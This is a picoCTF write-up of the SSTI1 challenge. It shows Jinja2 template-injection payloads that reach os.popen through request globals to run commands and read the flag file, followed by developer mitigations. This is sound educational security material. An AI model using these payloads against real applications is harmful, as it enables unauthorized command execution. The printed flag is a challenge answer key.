 >> picoCTF — SSTI1 (Server-Side Template Injection) Writeup

**Challenge:** SSTI1 — Server-Side Template Injection  
**Category:** Web — SSTI / Template Injection  
**Author:** NIGHTFURY0X01 (Arash)
**Level:** Easy

---

## Description
> I made a cool website where you can announce whatever you want! Try it out!  
> Additional details will be available after launching your challenge instance.

The application provides a simple announcement form (an input named `content`) that reflects the submitted text back to the page. I interacted with the site through the web UI (entered payloads into the form and submitted) to confirm SSTI and to escalate to command execution.

> **Warning:** The techniques below are for CTF/educational purposes only. Do not use them on systems without explicit authorization.

---

## Summary
By submitting specially crafted template expressions in the announcement form, the server evaluated Jinja2/Python expressions. Starting from a basic arithmetic test, I used introspection to access Python globals and `os.popen`, enumerated the application directory, and read the `flag` file. All interaction was done using the website form (no `curl`).

---

## Tools
- Web browser (to open the challenge page and submit the announcement form)  
- Optional: a text editor to prepare payloads before copying into the form

---

## Steps — Browser interaction (what I did)

### 1. Open the challenge page
I loaded the challenge instance in my browser and located the announcement form:

![Step 1](images/1.png)

```html
<form action="/" method="POST">
  What do you want to announce: <input name="content" id="announce">
  <button type="submit"> Ok </button>
</form>

```
![Step 2](images/2.png)

+ The form posts content to / and reflects the announcement back to the page.

### 2. Confirm SSTI with a simple arithmetic test

+ I entered the payload into the input field:

```bash
{{7*7}}
```
![Step 3](images/3.png)

. Then I submitted the form. The page returned and showed:
```bash
49
```

![Step 4](images/4.png)

. This confirmed the server is evaluating template expressions (SSTI).

### 3. Escalate to command execution via Python builtins

+ To import modules and run shell commands, I used Python introspection through the request object available in the template context. I entered:

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
![Step 5](images/5.png)

. After submitting the form, the page reflected:

```bash
uid=0(root) gid=0(root) groups=0(root)
```

![Step 6](images/6.png)

. This shows the process is running as root, and that os.popen() is usable to execute shell commands.


### 4. Enumerate files in the working directory

Next, I listed files by submitting:

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
![Step 7](images/7.png)

The page returned:

```bash
__pycache__
app.py
flag
requirements.txt
```

![Step 8](images/8.png)

. This confirmed a flag file exists in the application directory.


### 5. Read the flag file

Finally, I retrieved the flag by submitting:

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

![Step 9](images/9.png)

. The page returned the flag:
```bash
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}
```
![Step 10](images/10.png)

##Final Flag:
```bash
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}
```
---
## Analysis & Notes

+ The content field was rendered inside a server-side template and evaluated as a Jinja2/Python expression — classic SSTI.

+ Using request.application.__globals__.__builtins__.__import__('os') allowed importing os from within the template sandbox (when direct import is unavailable). From there os.popen() executed shell commands.

+ The server process was running as root, which made reading local files trivial. In production systems, running app processes as root is insecure.

+ Important: all actions above were performed by typing payloads into the web form and submitting — no CLI tooling was required.
---
## Mitigations (for developers)

+ To prevent SSTI and related RCE risks:

+ Do not render raw user input inside templates. Escape user-supplied content or use safe display functions.

+ Use template engine sandboxing (Jinja2 sandbox, strict environments) and avoid exposing request, application, or __builtins__ to templates.

+ Run application processes with least privilege (do not run as root).

+ Validate and sanitize inputs; treat inputs strictly as data.

+ Apply defense-in-depth: input validation, output encoding, template auto-escaping, and minimal runtime privileges.